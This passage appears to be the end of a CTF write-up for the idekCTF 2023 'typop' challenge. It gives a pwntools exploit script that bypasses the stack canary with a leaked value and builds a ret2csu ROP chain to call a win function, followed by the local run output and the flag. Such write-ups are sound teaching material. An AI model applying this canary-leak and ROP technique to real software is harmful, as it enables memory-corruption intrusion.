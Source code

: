 ```
csu_pops = pie_base + 0x014ca
csu_movs = pie_base + 0x014b0

payload4 = padding
payload4 += p64(canary)
payload4 += p64(pie_base+elf.symbols['win'])
payload4 += p64(csu_pops)
payload4 += p64(0) #rbx
payload4 += p64(1) #rbp
payload4 += p64(ord('f')) #r12 => edi
payload4 += p64(ord('l')) #r13 => rsi
payload4 += p64(ord('a')) #r14 => rdx
payload4 += p64(stack_leak - 0x10) #r15, points to win and called
payload4 += p64(csu_movs)
target.send(payload4)
target.interactive()
```
While I never fully tested this method on the remote instance, the results should look like this (some machines seem to have issues properly displaying the flag, but if you're playing locally, you can follow your script along in gdb to see that the appropriate functions are called with the appropriate arguments):
```
knittingirl@DESKTOP-C54EFL6:/mnt/c/Users/Owner/Desktop/CTF_Files/idekCTF23/typop/attachments$ python3 typop_exploit.py
[+] Starting local process './chall': pid 16185
[*] running in new terminal: ['/usr/bin/gdb', '-q', './chall', '16185', '-x', '/tmp/pwnnyb3u7ls.gdb']
[+] Waiting for debugger: Done
[*] '/mnt/c/Users/Owner/Desktop/CTF_Files/idekCTF23/typop/attachments/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./'
[*] '/mnt/c/Users/Owner/Desktop/CTF_Files/idekCTF23/typop/attachments/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
b'Do you want to complete a survey?'
b'\nDo you like ctf?'
b'\nYou said: aaaaaaaaaaa'
0x3419be5e1e994500
0x7ffd13a68480
b'\nAww :( Can you provide some extra feedback?\nDo you like ctf?'
b'\nYou said: aaaaaaaaaaaaaaaaaaaaaaaaaa'
b'Gd\xcaeCV'
0x564365ca64d3
[*] Switching to interactive mode

Aww :( Can you provide some extra feedback?
idek{2_guess_typos_do_matter}

$
```
Thanks for reading!
